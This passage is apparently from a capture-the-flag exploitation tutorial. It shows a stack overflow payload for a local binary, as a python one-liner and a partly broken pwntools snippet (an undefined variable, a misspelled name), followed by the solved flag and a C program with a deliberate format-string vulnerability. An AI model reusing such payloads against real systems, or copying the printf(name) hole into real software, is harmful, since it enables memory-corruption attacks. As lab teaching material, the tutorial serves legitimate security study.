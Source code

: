 our payload is nonprintable character so how can we arrange it?  
you can use either

```bash
python -c "print('A'*24 + '\xd7\x06@\x00\x00\x00\x00\x00')" | ./example1
```

or

```python
offeset = 24
readFlag = 0x00000000004006d7
payload = b'A' * offeset
payload += p64(vuln)

use

p.sendline(payload)
p.interactive()
```

to send the payload and enter interactive mode and youll get the flag.

```code
flag `CTF{ch4ng3_th3_progr4m_fl0o0w}`
```

## Fstring

given the problem in `example3.c` (fstr0)

```c
// gcc fstr0.c -o fstr0

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readFlag(char* flag) {
        FILE *fptr;
        fptr = fopen("flag.txt", "r");
        fread(flag, sizeof(char), 32, fptr);
}

void vuln() {
        char flag[32];
        char name[256];
        readFlag(flag);
        puts("what's your name?");
        fgets(name, 256, stdin);
        printf("hello, ");
        printf(name);
}

int main() {
        setbuf(stdout, NULL);
        puts("hi, welcome to fstring!");
        vuln();
        return 0;
}
```
